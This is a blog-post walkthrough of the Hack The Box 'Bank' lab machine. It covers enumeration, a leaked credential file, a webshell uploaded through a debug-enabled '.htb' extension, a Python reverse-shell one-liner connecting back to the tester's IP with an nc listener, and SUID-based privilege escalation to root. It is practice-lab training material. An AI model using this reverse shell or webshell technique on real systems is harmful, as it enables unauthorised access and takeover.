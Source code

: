 ```yaml
---
layout: post
title: bank Walkthrough
subtitle: Hack The Box Bank Solution
tags: [bank, hackthebox, htb, walkthrough, pentest, CTF]
comments: true
---
```


We are going to do a penetration test of a nice machine from hackthebox.eu called bank. I made it in company of my work mate [last](http://blog.notso.pro "last") in about 5 hours. This machine hasn't been so hard, but we had few problems to understand how to unlock the way to cross.
The only information we received were the name of the machine
````
bank
````
and the ip address
```
10.10.10.29 
```

so we scanned it using nmap

~~~
root@kali:~# nmap -sV -p- -n 10.10.10.29
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-26 14:25 CEST
Nmap scan report for 10.10.10.29
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.26 seconds
~~~

we can notice we found 3 services to check.

- OpenSSH 6.6.1p1
- ISC BIND 9.9.5-3ubuntu0.14
- Apache httpd 2.4.7

but there weren't known vulnerabilities for them.

So We tried to connect on the 80 port for checking the web server, but we didn't get interesting things.
The response was the default page of Apache, and there weren't hidden surprises in the source code.
We continued the PT enumerating the hidden directories using **dirbuster** but nothing happened.


We wasted many time trying to find the right way, 
using some big wordlist for the directories webserver enumeration, connecting to the 53 port, scanning UDP port of the machine but we didn't get any result.
After few hours spent wasting time, we had an idea.
Maybe the server was configured with virtualhost, so using the right domain we would be able to connect to the web application.

so we edited our hosts file
~~~
root@kali:/# nano etc/hosts
~~~

adding this line
~~~
10.10.10.29	bank.htb
~~~

so going by browser on `bank.htb` TADA'!!!
we found the login panel of the web application.
SQL injection didn't work, so we tried again to enumerate the directories.

## ENUMERATION
I launched my dear friends **dirsearch**

~~~
root@kali:~/dirsearch# python3 dirsearch.py -u bank.htb -e * -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
~~~
let me analyze the command:
- **-u bank.htb** for specifying the Host
- **-e \*** for the extentions (we set ALL) 
- **-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt** for the wordlist, i preferred to use the biggest wordlist for being sure

That's the result

~~~
[15:06:44] Starting: 
[15:06:44] 301 -  305B  - /uploads  ->  http://bank.htb/uploads/
[15:06:45] 301 -  304B  - /assets  ->  http://bank.htb/assets/
[15:06:48] 302 -    7KB - /  ->  login.php
[15:06:52] 301 -  301B  - /inc  ->  http://bank.htb/inc/
[15:12:19] 403 -  288B  - /server-status
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/

Task Completed
~~~

Our attenction was on

~~~
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/
~~~

in this directory there was an huge list of crypted .acc (account) files.

They were so similar, so **last** said me to check the size, We found one smaller then the others.

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/found-not-encrypted.png "found-not-encrypted")

One file wasn't crypted and the informations were readable.

~~~
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
~~~

We were able to log in the platform, watching the balance, transaction history etc etc.
The vulnerability was inside the support page, there was an upload module, but we didn't find a way for uploading malware right there.


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/support-page.png "support-page")

### EXPLOITATION

Reading more deeply we discovered the developer missed an important information used for debugging inside the HTML source code.

~~~
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
~~~


**thanks Mr Dev!** We can now upload our fantastic square-webshell (you should look at it on the [official repository](https://github.com/MrSaighnal/square-webshell "official repo")) simply changing the extension to .htb .

exploring the file system we found the first flag

~~~
cat ../../../../home/chris/user.txt
~~~

user.txt output:
~~~
37c97f8609f361848d8872098b0721c3
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/square-webshell.png "user owned")

{: .box-success}
**Success:** User Owned.

it's now time to spawn real shell for managing our new system :-)

let's get ready our computer for receving connections through **nc** using the command

~~~
root@kali:~# nc -vv -n -l -p 1337
~~~
Our machine is now listening on the 1337 port. (Don't close this terminal!!!)

let's launch on the webshell this command

~~~
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
~~~

be sure to edit the 3°raw with your parameters **YOUR_IP** and **PORT**.

come back on your **nc** terminal and you shold see something similar to:

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$
~~~

let's try to launch a command

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
~~~
it works.

### PRIVILEDGE ESCALATION

for priviledge escalation we launched a command for checking all files with high priviledge 

~~~
$ find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2> /dev/null
~~~

and the first apperd so weird:

~~~
-rwsr-xr-x 1 root root 112204 Jun 14  2017 `/var/htb/bin/emergency`
~~~

Our friend sysadmin misconfigurated the system leaving an important vulnerability open, through this file anyboyd is able to become root.

~~~
cd /var/htb/bin/
ls
emergency
./emergency
whoami
root
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/whoami-root.png "whoami root")

and get the root flag 

~~~
cat /root/root.txt  
d5be56adc67b488f81a4b9de30c8a68e
~~~


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/root-flag.png "root owned")

{: .box-success}
**Success:** Root Owned.
